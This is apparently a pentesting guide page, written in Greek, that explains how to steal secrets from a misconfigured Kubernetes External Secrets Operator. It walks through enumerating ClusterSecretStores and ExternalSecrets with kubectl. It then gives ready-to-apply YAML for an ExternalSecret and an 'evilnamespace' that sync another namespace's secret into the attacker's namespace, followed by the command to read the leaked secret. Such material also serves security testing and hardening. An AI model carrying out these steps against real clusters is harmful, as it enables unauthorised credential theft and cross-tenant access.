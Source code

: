 # Εξωτερικός Τελεστής Μυστικών

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Αυτή η σελίδα δίνει ορισμένες οδηγίες για το πώς μπορείτε να καταφέρετε να κλέψετε μυστικά από έναν κακοδιαμορφωμένο ESO ή εφαρμογή που χρησιμοποιεί το ESO για να συγχρονίσει τα μυστικά της.

## Αποποίηση Ευθυνών

Η τεχνική που παρουσιάζεται παρακάτω μπορεί να λειτουργήσει μόνο όταν πληρούνται συγκεκριμένες συνθήκες. Για παράδειγμα, εξαρτάται από τις απαιτήσεις που απαιτούνται για να επιτραπεί σε ένα μυστικό να συγχρονιστεί σε ένα namespace που ανήκει σε εσάς / έχετε διαρρηγμένο. Θα πρέπει να το ανακαλύψετε μόνοι σας.

## Προαπαιτήσεις

1. Ένα πόδι σε ένα Kubernetes / Openshift cluster με διαχειριστικά προνόμια σε ένα namespace
2. Δικαιώματα ανάγνωσης τουλάχιστον στο ExternalSecret σε επίπεδο cluster
3. Ανακαλύψτε αν υπάρχουν οποιεσδήποτε απαιτούμενες ετικέτες / αναφορές ή μέλη ομάδας που απαιτούνται για να επιτραπεί στο ESO να συγχρονίσει το μυστικό σας. Αν είστε τυχεροί, μπορείτε ελεύθερα να κλέψετε οποιοδήποτε ορισμένο μυστικό.

### Συλλογή πληροφοριών σχετικά με το υπάρχον ClusterSecretStore

Υποθέτοντας ότι έχετε έναν χρήστη που έχει αρκετά δικαιώματα για να διαβάσει αυτό το πόρο, ξεκινήστε με τη λίστα των υπαρχόντων _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### Απαρίθμηση ExternalSecret

Ας υποθέσουμε ότι βρήκατε ένα ClusterSecretStore με το όνομα _**mystore**_. Συνεχίστε απαριθμώντας το σχετικό externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Αυτό το resource είναι περιορισμένο στο namespace, οπότε εκτός αν γνωρίζετε ήδη σε ποιο namespace να ψάξετε, προσθέστε την επιλογή -A για να αναζητήσετε σε όλα τα namespaces._

Θα πρέπει να λάβετε μια λίστα με τα ορισμένα externalsecret. Ας υποθέσουμε ότι βρήκατε ένα αντικείμενο externalsecret με το όνομα _**mysecret**_ που έχει οριστεί και χρησιμοποιείται από το namespace _**mynamespace**_. Συγκεντρώστε λίγο περισσότερες πληροφορίες σχετικά με τον τύπο μυστικού που περιέχει.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Συναρμολόγηση των κομματιών

Από εδώ μπορείτε να λάβετε το όνομα ενός ή περισσότερων ονομάτων μυστικών (όπως ορίζεται στο αντικείμενο Secret). Θα έχετε ένα αποτέλεσμα παρόμοιο με:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```html
<p>Μέχρι στιγμής έχουμε:</p>

* Ονομασία ενός ClusterSecretStore
* Ονομασία ενός ExternalSecret
* Ονομασία του μυστικού

<p>Τώρα που έχουμε όλα όσα χρειαζόμαστε, μπορείτε να δημιουργήσετε ένα ExternalSecret (και τελικά να τροποποιήσετε/δημιουργήσετε ένα νέο Namespace για να συμμορφωθεί με τις προϋποθέσεις που απαιτούνται για να συγχρονιστεί το νέο σας μυστικό):</p>
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Μετά από λίγα λεπτά, εάν πληρούνται οι συνθήκες συγχρονισμού, θα πρέπει να μπορείτε να δείτε το διαρρεύσαν μυστικό μέσα στο namespace σας.
```sh
kubectl get secret leaked_secret -o yaml
```
## Αναφορές

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
